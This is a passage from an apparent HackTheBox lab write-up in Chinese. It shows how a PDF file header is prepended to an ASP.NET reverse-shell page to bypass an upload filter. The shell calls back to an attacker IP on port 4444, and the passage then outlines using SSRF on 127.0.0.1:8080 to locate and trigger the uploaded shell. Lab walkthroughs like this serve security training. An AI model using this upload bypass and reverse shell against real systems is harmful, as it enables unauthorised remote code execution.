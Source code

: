 
9. 尝试文件上传绕过，首先查看一下正常的PDF文件头，得到%PDF-1.6.%

   ```
   └─# cat cs1.pdf | xxd
   00000000: 2550 4446 2d31 2e36 0d25 e2e3 cfd3 0d0a  %PDF-1.6.%......
   00000010: 3234 2030 206f 626a 0d3c 3c2f 4c69 6e65  24 0 obj.<</Line
   ```
   
   在reverse_shell.aspx中追加pdf的文件头
   
   ```
      %PDF-1.6.%
   
      <%@ Page Language="C#" %>
      <%@ Import Namespace="System.Runtime.InteropServices" %>
      <%@ Import Namespace="System.Net" %>
      <%@ Import Namespace="System.Net.Sockets" %>
      <%@ Import Namespace="System.Security.Principal" %>
      <%@ Import Namespace="System.Data.SqlClient" %>
      <script runat="server">
      //Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
      //Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
          
      	protected void Page_Load(object sender, EventArgs e)
          {
      	    String host = "10.10.16.13"; //CHANGE THIS
                  int port = 4444; ////CHANGE THIS
                      
              CallbackShell(host, port);
          }
      [snip]
   ```
   
   



# 0x2、获取初始立足点

1. 整理一下目前拥有的信息

   https://portal.meddigi.htb/Prescriptions页面存在SSRF漏洞

   目标机器在本地的127.0.0.1:8080端口上运行着一个服务，可以查看到上传文件的路径

   在https://portal.meddigi.htb/examreport可以上传文件，可以通过PDF文件头的方式绕过来上传恶意的aspx文件

2. 现在的攻击思路大致是

   ```
   绕过限制上传恶意aspx文件-->ssrf 127.0.0.1:8080获取恶意aspx文件路径 --> ssrf 127.0.0.1:8080/恶意aspx路径
   ```

   

   绕过上传后在/Prescriptions利用ssrf访问http://127.0.0.1:8080,查看源代码可以发现上传后的文件名是**baaea62b-b643-4fb3-a01c-bb0b734aba0f_reverse_shell.aspx**
